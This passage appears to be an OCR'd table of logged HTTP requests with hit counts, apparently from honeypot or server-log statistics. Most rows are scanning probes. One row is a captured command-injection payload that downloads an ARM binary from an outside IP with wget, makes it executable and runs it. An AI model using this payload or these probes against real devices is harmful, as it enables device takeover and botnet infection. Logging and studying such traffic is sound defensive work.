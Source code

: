 | 109 |                    14 | GET /systembc/password.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| 110 |                    14 | GET /1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| 111 |                    14 | GET /geoip/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 112 |                    14 | GET /t4 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 113 |                    14 | GET /solr/admin/info/system?wt=json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 114 |                    14 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F185.232.205.184%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
